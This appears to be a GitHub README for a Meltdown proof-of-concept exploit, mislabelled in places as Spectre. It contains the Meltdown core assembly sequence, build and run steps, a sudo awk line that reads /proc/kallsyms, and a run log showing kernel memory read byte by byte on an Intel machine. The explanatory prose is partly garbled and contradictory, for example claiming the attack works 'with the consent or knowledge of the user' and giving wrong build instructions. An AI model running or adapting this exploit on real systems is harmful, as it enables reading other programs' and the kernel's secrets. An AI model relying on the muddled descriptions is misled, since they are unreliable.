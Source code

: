 INTEL PROCESSOR SPECTRE EXPLOIT SOURCE CODE -  Spectre-Meltdown.c

Build with: cc Spectre-Meltdown.c  and run with ./output.o


Spectre breaks the isolation between different applications. It allows an attacker to trick error-free programs, which follow best practices, into leaking their secrets. In fact, the safety checks of said best practices actually increase the attack surface and may make applications more susceptible to Spectre

Spectre is slightly different from Meltdown. This is so because it can allow hackers to fool the applications (even the stable versions of the respective application) running on a machine to give up secret information from the Kernal module of the operating system to the hacker with the consent or knowledge of the user.





# MELTDOWN EXPLOIT 
INTEL PROCESSOR MELTDOWN EXPLOIT SOURCE CODE"



The Intel Processor core instruction sequence of Meltdown: -

; rcx = kernel address

; rbx = probe array

retry:

mov al, byte [rcx]

shl rax, 0xc

jz retry

mov rbx, qword [rbx + rax]



Meltdown breaks the most fundamental isolation between user applications and the operating system. This attack allows a program to access the memory, and thus also the secrets, of other programs and the operating system.

This vulnerability would allow malicious attacks to take place when a hacker could break the differentiating factor between the applications run by the user and the Core Memory of the Computer.

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Refer to the paper by Lipp et. al 2017 for details: https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`.

https://github.com/Anakin-Skywalker/Spectre-MeltDown-/Build with `make`, run with `./run.sh`.

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo awk 
	/linux_proc_banner/ {
		if (strtonum("0x"$1))
			print $1;
		exit 0;
	} /proc/kallsyms
+ linux_proc_banner=ffffffffa3e000a0
+ set +x
cached = 29, uncached = 271, threshold 88
read ffffffffa3e000a0 = 25 %
read ffffffffa3e000a1 = 73 s
read ffffffffa3e000a2 = 20  
read ffffffffa3e000a3 = 76 v
read ffffffffa3e000a4 = 65 e
read ffffffffa3e000a5 = 72 r
read ffffffffa3e000a6 = 73 s
read ffffffffa3e000a7 = 69 i
read ffffffffa3e000a8 = 6f o
read ffffffffa3e000a9 = 6e n
read ffffffffa3e000aa = 20  
read ffffffffa3e000ab = 25 %
read ffffffffa3e000ac = 73 s
read ffffffffa3e000ad = 20  
read ffffffffa3e000ae = 28 (
read ffffffffa3e000af = 62 b
read ffffffffa3e000b0 = 75 u
read ffffffffa3e000b1 = 69 i
read ffffffffa3e000b2 = 6c l
read ffffffffa3e000b3 = 64 d
read ffffffffa3e000b4 = 64 d
read ffffffffa3e000b5 = 40 @
VULNERABLE
VULNERABLE ON
4.10.0-42-generic #46~16.04.1-Ubuntu SMP Mon Dec 4 15:57:59 UTC 2017 x86_64
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz
stepping	: 9
microcode	: 0x5e
cpu MHz		: 3499.316
cache size	: 6144 KB
physical id	: 0
```

# Does not work

If it compiles but fails with `Illegal instruction` then either your hardware
is very old or it is a VM. Try compiling with:

```shell
$ make CFLAGS=-DHAVE_RDTSCP=0 clean all
```


